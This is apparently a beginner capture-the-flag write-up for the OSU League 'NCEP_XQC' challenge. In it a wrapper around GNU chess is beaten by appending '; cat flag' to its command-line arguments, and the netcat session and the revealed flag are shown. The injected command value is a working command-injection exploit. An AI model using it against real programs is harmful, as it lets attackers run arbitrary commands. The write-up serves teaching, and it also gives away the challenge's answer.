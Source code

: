 ```yaml
---
title: "OSU League 2020/2021 - NCEP_XQC Writeup"
date: 2021-04-10
draft: false
description: ""
tags: ["ctf"]
---
```

For this challenge, we are given a simple program that just runs GNU chess.
Right away we can see that it lets us input command line arguments! Maybe we can just do a simple commandline injection to cat the flag:

```
$ nc ctf.ropcity.com 31314
WELCOME TO THE NORWEGIAN COLLEGE OF ELITE PWN
Please enter your custom command line arguments, or just hit enter to begin your training: ; cat flag
executing command: /usr/games/gnuchess -g -m ; cat flag

GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : quit
osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}

finished executing command /usr/games/gnuchess -g -m ; cat flag
```

And we get the flag!  
`osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}`

Welp... Looks like that was it. A good beginner challenge for this series!